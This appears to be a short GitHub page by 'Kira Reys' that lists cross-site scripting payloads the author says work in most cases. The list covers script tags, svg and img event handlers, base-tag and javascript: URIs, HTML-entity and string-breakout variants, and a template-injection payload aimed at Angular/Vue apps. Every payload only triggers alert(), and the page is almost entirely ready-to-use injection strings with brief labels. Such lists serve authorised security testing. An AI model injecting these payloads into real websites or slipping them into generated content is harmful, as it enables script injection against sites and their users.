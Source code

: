 <h1> 🚀Most Common Working Payloads </h1>
<h2> This is list of XSS Payloads that worked in most cases for me </h2>

``` "><svg/onload=alert(1)>``` - Length bypass Svg Payload </br>
``` "><script>alert(1)</script>``` - Basic XSS Payload with script tag </br>
``` <div onmouseover="alert(document.domain);">``` - Onmouseover XSS Payload </br>
``` <IMG SRC="javascript:alert('XSS');">``` - Image XSS Directive Payload </br>
``` </style><script>a=eval;b=alert;a(b(/XSS/.source));</script>``` - Style Special Combination </br>
``` "><img src=x onerror=alert(1)>``` - Typical Image XSS Payload </br>
``` {{constructor.constructor(`alert(1)`)()}}``` - This is technically CSTI, but it is escalated to XSS for better Impact. It works mostly on Angular/Vue Applications. You can explore more about Template Injections on Internet </br>
``` <BODY onload=alert(1)>``` - Body Payload </br>
``` <BASE HREF="javascript:alert('XSS');//">``` - XSS with Base Tag </br>
``` &apos;-alert(1)-&apos;``` - Injecting alert inside HTML tag + HTML Encoding </br>
``` <IMG SRC=javascript:alert(&quot;XSS&quot;)>``` - Image Payload with HTML Entities </br>
```'-alert(1)-'```
```\';alert(document.domain)//``` - Inject Alert inside JS String </br>
```javascript:alert(1)``` - Works in many ways and combination, also can help escalating Open Redirect to XSS </br>
```http://www.<script>alert(1)</script .com```

<h2>by Kira Reys </h2>
